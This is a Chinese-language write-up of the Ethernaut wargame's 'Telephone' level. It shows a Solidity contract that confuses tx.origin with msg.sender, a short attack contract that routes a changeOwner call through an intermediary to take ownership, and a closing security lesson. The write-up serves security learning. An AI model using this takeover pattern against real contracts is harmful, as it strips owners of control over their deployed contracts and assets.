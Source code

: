 ```yaml
---
title: Ethernaut 闯关笔记 第5关 Telephone
date: 2023-12-07 12:20:52
tags:
---
```


# 原始代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

目标：成为合约 owner 。

# 攻击思路

本关考察 `tx.origin` 和 `msg.sender` 的区别。

* `tx.origin` ：本次交易的最早发起人，只可能是一个钱包
* `msg.sender` ：本次合约调用的直接行为主体，可能是钱包也可能是另一个合约

因此，只需要另外部署一个合约，让这个合约调用 `changeOwner()` 即可符合条件。

# 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

contract TelephoneHack{
    address constant TARGET = 0x6e4F3a2689069C568E51db94E76D0A84f00aa20f;
    address constant MY = 0x15AfABaA426334636008Bc15805760716E8b5c5E;

    function run() public {
        Telephone telephone = Telephone(TARGET);
        telephone.changeOwner(MY);
    }
}
```

# 安全启示

务必区分清楚 `tx.origin` 和 `msg.sender` 。

如果使用不当，可能导致 `owner` 指向一个合约地址。如果指向的合约没有实现该有的功能，原始合约的控制权就会丢失。
